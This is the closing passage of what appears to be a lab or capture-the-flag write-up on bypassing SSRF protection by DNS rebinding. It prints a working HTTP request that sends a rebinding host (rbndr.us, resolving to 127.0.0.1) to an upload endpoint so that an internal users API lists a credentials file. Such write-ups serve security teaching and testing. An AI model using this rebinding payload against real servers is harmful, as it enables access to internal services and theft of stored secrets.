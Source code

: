 I used the parameter `user_uuid`  in the request as a get  parameter to make server requests the user's secredt files but the response didn't change indicating that this is not the write parameter

&#x20;

<figure><img src="../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

#### Final Breakthrough

The parameter `user_uuid` needed to be changed to `uuid`:

```http
POST /api/v2/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/json
Content-Length: 101
{"file_url":"http://7f000001.d83ad3ce.rbndr.us//api/users?uuid=05262283-b53e-4410-8793-21c7eef6ed19"}
```

The response indicated success:

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Sat, 27 Jul 2024 09:32:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 25
["my-twitter-creds.txt"]
```

And here we go—we did it! The server revealed the sensitive file, "my-twitter-creds.txt."

#### Conclusion

By following the above steps and utilizing tools like Docker, DNS rebinding, and directory brute-forcing, we were able to bypass SSRF protections and exfiltrate sensitive information from the target application. This demonstrates the effectiveness of DNS rebinding in circumventing security measures that rely on IP-based access controls.

### References

* [https://www.youtube.com/watch?v=90AdmqqPo1Y](https://www.youtube.com/watch?v=90AdmqqPo1Y)

{% embed url="https://medium.com/@oXnoOneXo/a-story-of-a-nice-ssrf-vulnerability-51e16ff6a33f" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/DNS%20Rebinding/README.md" %}

{% embed url="https://github.com/nccgroup/singularity/wiki/How-Do-DNS-Rebinding-Attacks-Work%3F" %}
